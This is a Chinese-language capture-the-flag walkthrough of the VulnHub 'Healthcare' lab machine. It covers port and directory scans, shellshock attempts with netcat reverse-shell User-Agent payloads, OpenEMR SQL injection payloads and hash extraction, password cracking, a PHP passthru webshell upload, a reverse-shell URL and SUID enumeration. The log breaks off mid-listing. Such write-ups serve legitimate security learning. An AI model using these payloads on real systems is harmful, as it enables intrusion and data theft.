





# Healthcare

拿下这台靶机，真可谓是破费周章，主要是没想到突破点在大字典的最后一行（看了别人的wp才知道），我以为枚举50%也就够了，看来我还是太主观了。

在渗透过程中看到test.cgi，在一开始会以为是shellshock，还好后面我为了了解更多目标系统信息，在本地安装了靶机使用的linux发行版，然后发现test.cgi是用perl语言写的，而且apache + mariadb + proftpd 是系统自带的，还发现一些可疑的udp漏洞，虽然这些对边界突破没什么用，但是排除了一些选项，节省了时间。

另外，在找PCLinuxOS Medical过程中，发现目标靶机极有可能存在OpenEMR，所以也不一定需要靠跑大字典获取这个关键信息。


PCLinuxOS Healthcare Link :

- https://sourceforge.net/projects/pclosmedical/

- https://master.dl.sourceforge.net/project/pclosmedical/2011/PCLOS_medical_2011-11.iso?viasf=1

## Nmap

### TCP Scan

```bash
┌──(yile㉿Tomoyo)-[~/Documents/Vulnhub/Healthcare]
└─$ sudo nmap -p21,80 -sCV -Pn 192.168.56.102 -T4
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-31 18:04 HKT
Nmap scan report for 192.168.56.102
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
|_http-title: Coming Soon 2
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
MAC Address: 08:00:27:78:41:43 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.77 seconds
```

### UDP Scan

通过本地安装PCLinuxOS Healthcare Version发现一些可疑的udp端口。

```bash
┌──(yile㉿Tomoyo)-[~]
└─$ nmap -p5353,63776,68,41548,21781 -sU -sCV -Pn 192.168.56.102 -T4
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-01 18:47 HKT
Nmap scan report for 192.168.56.102
Host is up (0.00031s latency).

PORT      STATE         SERVICE VERSION
68/udp    open|filtered dhcpc
5353/udp  open          mdns    DNS-based service discovery
| dns-service-discovery: 
|   9/tcp workstation
|     Address=192.168.56.102 fe80::a00:27ff:fe78:4143
|   22/tcp ssh
|     Address=192.168.56.102 fe80::a00:27ff:fe78:4143
|   22/tcp ftp
|     Address=192.168.56.102 fe80::a00:27ff:fe78:4143
|   22/tcp sftp-ssh
|_    Address=192.168.56.102 fe80::a00:27ff:fe78:4143
21781/udp closed        unknown
41548/udp closed        unknown
63776/udp closed        unknown
MAC Address: 08:00:27:78:41:43 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.22 seconds
```

## Dirsearch

### Default Scan

```bash
┌──(yile㉿Tomoyo)-[~/Documents/Vulnhub/Healthcare]
└─$ dirsearch -u http://192.168.56.102/ --full-url -i 200 -F
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/yile/Documents/Vulnhub/Healthcare/reports/http_192.168.56.102/__25-07-31_18-07-23.txt

Target: http://192.168.56.102/

[18:07:23] Starting: 
[18:07:33] 200 -    1KB - http://192.168.56.102/cgi-bin/test.cgi
[18:07:36] 200 -    1KB - http://192.168.56.102/favicon.ico
[18:07:47] 200 -  620B  - http://192.168.56.102/robots.txt

Task Completed

```

### Large dictionary brute

将大字典枚举到最后一行时发现一个有趣的目录，后来证明那就是突破口！

```bash
┌──(yile㉿Tomoyo)-[~/Documents/Vulnhub/Healthcare]
└─$ dirsearch -u http://192.168.56.102/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt --full-url -x 400 -F 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 1185239

Output File: /home/yile/Documents/Vulnhub/Healthcare/reports/http_192.168.56.102/__25-08-04_22-43-50.txt

Target: http://192.168.56.102/

[22:43:50] Starting: 
[22:43:50] 403 - 1014B  - http://192.168.56.102/images/
-->  http://192.168.56.102/images
[22:43:51] 403 - 1014B  - http://192.168.56.102/css/
-->  http://192.168.56.102/css
[22:43:52] 403 - 1014B  - http://192.168.56.102/js/
-->  http://192.168.56.102/js
[22:43:52] 403 - 1014B  - http://192.168.56.102/vendor/
-->  http://192.168.56.102/vendor
[22:43:53] 200 -    1KB - http://192.168.56.102/favicon
[22:43:53] 200 -  620B  - http://192.168.56.102/robots
[22:43:54] 403 - 1014B  - http://192.168.56.102/fonts/
-->  http://192.168.56.102/fonts
[22:44:43] 403 - 1014B  - http://192.168.56.102/gitweb/
-->  http://192.168.56.102/gitweb
[22:46:38] 403 - 1000B  - http://192.168.56.102/server-status
[00:33:42] 403 - 1000B  - http://192.168.56.102/server-info
[01:03:31] 200 -  131B  - http://192.168.56.102/openemr/
-->  http://192.168.56.102/openemr

Task Completed

```

## Nikto

发现可能存在shellshock漏洞。

```bash
┌──(yile㉿Tomoyo)-[~/Documents/Vulnhub/Healthcare]
└─$ nikto -h 192.168.56.102                                                              
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.56.102
+ Target Hostname:    192.168.56.102
+ Target Port:        80
+ Start Time:         2025-07-31 18:07:40 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
+ /: Server may leak inodes via ETags, header found with file /, inode: 264154, size: 5031, mtime: Sat Jan  6 14:21:38 2018. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /robots.txt: contains 8 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ Apache/2.2.17 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /cgi-bin/test.cgi: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 9724 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2025-07-31 18:07:54 (GMT8) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

### Shellshock

该漏洞存在于bash 4.3之前。bash被执行过程中，会自动加载环境变量，如果环境变量的某个值设计成`() { :; }; touch /tmp/pwnd`，那么bash会将`() { :; };`当成一个函数，而`touch /tmp/pwnd`会被当成函数体后的语句被执行。测试主机存在shellshock漏洞的命令如下：

```bash
env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id
```

###  Curl

通过测试发现一些可变量，例如HTTP_USER_AGENT。而且test.cgi很可能是用bash脚本写的，那么HTTP_USER_AGENT很有可能会作为环境变量。



利用curl改变User-Agent的值，可是尝试后并没有触发。

```
curl -H "User-Agent: () { :;}; echo; echo; /bin/bash -c 'echo CVE-2014-7169 exploited'" http://192.168.56.102/cgi-bin/test.cgi

curl -A '() { :;}; echo; echo; /bin/bash -c "busybox nc 192.168.56.1 443 -e /bin/bash"' http://192.168.56.102/cgi-bin/test.cgi

curl -A '()%20%7B%20:;%7D;%20echo;%20echo;%20/bin/bash%20-c%20%22busybox%20nc%20192.168.56.1%20443%20-e%20/bin/bash%22' http://192.168.56.102/cgi-bin/test.cgi
```

## OpenEMR

发现存在SQL注入，可利用方式为报错注入和盲注。而且存在对应可利用脚本exp。



通过SQL盲注爆出admin和medical的用户密码hash。

```bash
┌──(yile㉿Tomoyo)-[~/Documents/Vulnhub/Healthcare]
└─$ python 49742.py
/home/yile/Documents/Vulnhub/Healthcare/49742.py:17: SyntaxWarning: invalid escape sequence '\_'
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \\

   ____                   ________  _______     __ __   ___ ____
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ /
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/
    /_/
    ____  ___           __   _____ ____    __    _
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d 
```

通过报错注入也可以得到admin的密码hash。

```
http://192.168.56.102/openemr/interface/login/validateUser.php?u=medical%27%20or%20updatexml(1,concat(0x7e,(select%20group_concat(substring(password,1,20),0x7e)%20from%20openemr.users%20where%20username=%27admin%27)),1)%23
```

### John

成功获得管理员凭据：`admin:ackbar`

```bash
┌──(yile㉿Tomoyo)-[~/Documents/Vulnhub/Healthcare]
└─$ john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
ackbar           (?)     
1g 0:00:00:00 DONE (2025-08-05 17:21) 12.50g/s 12955Kp/s 12955Kc/s 12955KC/s acl405..acjy98
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

成功获得普通用户凭据：`medical:medical`

```bash
┌──(yile㉿Tomoyo)-[~/Documents/Vulnhub/Healthcare]
└─$ john ./medical.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
medical          (?)     
1g 0:00:00:00 DONE (2025-08-05 17:42) 100.0g/s 861600p/s 861600c/s 861600C/s pinina..medical
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

### File upload

使用管理员凭据登陆后台后，发现上传点。



发现没有上传限制，无需绕过，可直接上传PHP文件。

```php
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```

执行反弹shell命令。

```
http://192.168.56.102/openemr/sites/default/images/shell-jpeg.php?cmd=nc%20192.168.56.1%2080%20-e%20/bin/sh
```



成功get WebShell。

```bash
[medical@localhost almirant]$ cat user.txt
cat user.txt
d41d8cd98f00b204e9800998ecf8427e
```

## Find

发现可疑的二进制SUID程序/usr/bin/healthcheck。

```bash
[medical@localhost ~]$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/libexec/pt_chown
/usr/lib/ssh/ssh-keysign
/usr/lib/polkit-resolve-exe-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/chromium-browser/chrome-sandbox
/usr/lib/polkit-grant-helper-pam
/usr/lib/polkit-set-default-helper
/usr/sbin/fileshareset
/usr/sbin/traceroute6
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/bin/crontab
/usr/bin/at
/usr/bin/pumount
/usr/bin/batch
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/wvdial
/usr/bin/pmount
/usr/bin/sperl5.10.1
/usr/bin/gpgsm
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpg
/usr/bin/healthcheck
/usr/bin/Xwrapper
/usr/bin/ping6
/usr/bin/chsh
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/bin/ping
/bin/fusermount
/bin/su
/bin/mount
/bin/umount
```

## Healthcheck

直接执行输出如下结果：

```bash
[medical@localhost ~]$ /usr/bin/healthcheck
/usr/bin/healthcheck
TERM environment variable not set.
System Health Check

Scanning System
eth1      Link encap:Ethernet  HWaddr 08:00:27:78:41:43  
          inet addr:192.168.56.102  Bcast:192.168.56.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe78:4143/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:63404 errors:0 dropped:0 overruns:0 frame:0
          TX packets:43963 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:8367313 (7.9 MiB)  TX bytes:10154078 (9.6 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:290 errors:0 dropped:0 overruns:0 frame:0
          TX packets:290 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:45406 (44.3 KiB)  TX bytes:45406 (44.3 KiB)


Disk /dev/sda: 10.7 GB, 10737418240 bytes
255 heads, 63 sectors/track, 1305 cylinders, total 20971520 sectors
Units = sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disk identifier: 0x00000000

   Device Boot      Start         End      Blocks   Id  System
/dev/sda1   *          63    18876374     9438156   83  Linux
/dev/sda2        18876375    20964824     1044225    5  Extended
/dev/sda5        18876438    20964824     1044193+  82  Linux swap / Solaris
4.0K	./Movies
156K	./.fontconfig
4.0K	./.gnome2_private
32K	./.gnome2/accels
12K	./.gnome2/panel2.d/default/launchers
16K	./.gnome2/panel2.d/default
20K	./.gnome2/panel2.d
4.0K	./.gnome2/evince
8.0K	./.gnome2/gedit
4.0K	./.gnome2/file-roller
4.0K	./.gnome2/nautilus-scripts
12K	./.gnome2/keyrings
92K	./.gnome2
4.0K	./.gnupg/private-keys-v1.d
16K	./.gnupg
4.0K	./.themes
8.0K	./.local/share/parcellite
4.0K	./.local/share/desktop-directories
252K	./.local/share/gvfs-metadata
20K	./.local/share/applications
296K	./.local/share
300K	./.local
4.0K	./.config/enchant
4.0K	./.config/gnome-session/saved-session
8.0K	./.config/gnome-session
8.0K	./.config/bleachbit
4.0K	./.config/google-googletalkplugin
4.0K	./.config/parcellite
12K	./.config/menus
4.0K	./.config/autostart
4.0K	./.config/chromium/Default/User StyleSheets
8.0K	./.config/chromium/Default/Local Storage
528K	./.config/chromium/Default
552K	./.config/chromium
8.0K	./.config/gtk-2.0
616K	./.config
20K	./Desktop
4.0K	./.mysqlgui/administrator
20K	./.mysqlgui
8.0K	./.dbus/session-bus
12K	./.dbus
4.0K	./Templates
4.0K	./.macromedia/Flash_Player/#SharedObjects
8.0K	./.macromedia/Flash_Player/macromedia.com/support/flashplayer/sys
12K	./.macromedia/Flash_Player/macromedia.com/support/flashplayer
16K	./.macromedia/Flash_Player/macromedia.com/support
20K	./.macromedia/Flash_Player/macromedia.com
28K	./.macromedia/Flash_Player
32K	./.macromedia
4.0K	./.nautilus
4.0K	./.thumbnails/normal
8.0K	./.thumbnails
148K	./.pulse
16K	./tmp/orbit-medical
4.0K	./tmp/keyring-hSBjUb
4.0K	./tmp/orbit-root
8.0K	./tmp/pulse-8LagrogWihJO
4.0K	./tmp/ssh-XLjWYherh886
4.0K	./tmp/keyring-fPbG5t
4.0K	./tmp/ssh-RoIgQkNbu874
4.0K	./tmp/keyring-uyQ8Tg
52K	./tmp
6.1M	./.cache/chromium/Default/Cache
6.1M	./.cache/chromium/Default
6.1M	./.cache/chromium
6.2M	./.cache
4.0K	./.mozilla/extensions
408K	./.mozilla/firefox/ph4556ft.default/startupCache
16K	./.mozilla/firefox/ph4556ft.default/bookmarkbackups
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/9
212K	./.mozilla/firefox/ph4556ft.default/Cache/F/87
216K	./.mozilla/firefox/ph4556ft.default/Cache/F
40K	./.mozilla/firefox/ph4556ft.default/Cache/4/15
44K	./.mozilla/firefox/ph4556ft.default/Cache/4
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/8
80K	./.mozilla/firefox/ph4556ft.default/Cache/0/32
28K	./.mozilla/firefox/ph4556ft.default/Cache/0/38
112K	./.mozilla/firefox/ph4556ft.default/Cache/0
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/D
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/6
28K	./.mozilla/firefox/ph4556ft.default/Cache/1/99
32K	./.mozilla/firefox/ph4556ft.default/Cache/1
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/B
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/C
80K	./.mozilla/firefox/ph4556ft.default/Cache/5/69
84K	./.mozilla/firefox/ph4556ft.default/Cache/5
40K	./.mozilla/firefox/ph4556ft.default/Cache/E/9C
44K	./.mozilla/firefox/ph4556ft.default/Cache/E
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/A
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/2
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/3
4.0K	./.mozilla/firefox/ph4556ft.default/Cache/7
660K	./.mozilla/firefox/ph4556ft.default/Cache
4.0K	./.mozilla/firefox/ph4556ft.default/minidumps
29M	./.mozilla/firefox/ph4556ft.default
8.0K	./.mozilla/firefox/Crash Reports
29M	./.mozilla/firefox
29M	./.mozilla
80K	./Documents
8.0K	./.gconf/apps/gconf-editor
8.0K	./.gconf/apps/metacity/general
12K	./.gconf/apps/metacity
8.0K	./.gconf/apps/gnome-terminal/profiles/Default
12K	./.gconf/apps/gnome-terminal/profiles
8.0K	./.gconf/apps/gnome-terminal/global
24K	./.gconf/apps/gnome-terminal
8.0K	./.gconf/apps/gksu
8.0K	./.gconf/apps/gedit-2/preferences/ui/statusbar
12K	./.gconf/apps/gedit-2/preferences/ui
16K	./.gconf/apps/gedit-2/preferences
20K	./.gconf/apps/gedit-2
8.0K	./.gconf/apps/nautilus-open-terminal
8.0K	./.gconf/apps/nautilus/desktop
8.0K	./.gconf/apps/nautilus/preferences
8.0K	./.gconf/apps/nautilus/desktop-metadata/8@46@0@32@GB@32@Media@46@volume
8.0K	./.gconf/apps/nautilus/desktop-metadata/trash
8.0K	./.gconf/apps/nautilus/desktop-metadata/8GB@46@volume
8.0K	./.gconf/apps/nautilus/desktop-metadata/pcedu-en@46@volume
8.0K	./.gconf/apps/nautilus/desktop-metadata/home
8.0K	./.gconf/apps/nautilus/desktop-metadata/directory
8.0K	./.gconf/apps/nautilus/desktop-metadata/computer
60K	./.gconf/apps/nautilus/desktop-metadata
8.0K	./.gconf/apps/nautilus/list_view
88K	./.gconf/apps/nautilus
8.0K	./.gconf/apps/panel/toplevels/top_panel/background
16K	./.gconf/apps/panel/toplevels/top_panel
20K	./.gconf/apps/panel/toplevels
8.0K	./.gconf/apps/panel/general
8.0K	./.gconf/apps/panel/applets/applet_2/prefs
16K	./.gconf/apps/panel/applets/applet_2
8.0K	./.gconf/apps/panel/applets/applet_6/prefs
16K	./.gconf/apps/panel/applets/applet_6
8.0K	./.gconf/apps/panel/applets/applet_3/prefs
16K	./.gconf/apps/panel/applets/applet_3
8.0K	./.gconf/apps/panel/applets/applet_4/prefs
16K	./.gconf/apps/panel/applets/applet_4
8.0K	./.gconf/apps/panel/applets/applet_5
8.0K	./.gconf/apps/panel/applets/window_menu
8.0K	./.gconf/apps/panel/applets/clock/prefs
12K	./.gconf/apps/panel/applets/clock
8.0K	./.gconf/apps/panel/applets/applet_1/prefs
16K	./.gconf/apps/panel/applets/applet_1
8.0K	./.gconf/apps/panel/applets/notification_area
8.0K	./.gconf/apps/panel/applets/applet_0/prefs
16K	./.gconf/apps/panel/applets/applet_0
136K	./.gconf/apps/panel/applets
8.0K	./.gconf/apps/panel/objects/object_0
8.0K	./.gconf/apps/panel/objects/object_2
8.0K	./.gconf/apps/panel/objects/object_3
8.0K	./.gconf/apps/panel/objects/object_4
